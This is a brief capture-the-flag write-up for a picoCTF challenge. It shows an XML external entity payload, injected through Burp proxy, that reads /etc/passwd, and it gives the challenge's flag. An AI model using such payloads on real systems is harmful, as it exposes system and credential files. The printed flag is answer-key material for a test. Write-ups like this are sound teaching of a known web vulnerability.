 Using Burp proxy to intercept the request and add this external XML entity.
```xml
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
```
And add a reference to the external entity by `&xxe`
![img.png](img.png)
Flag: `picoCTF{XML_3xtern@l_3nt1t1ty_55662c16}`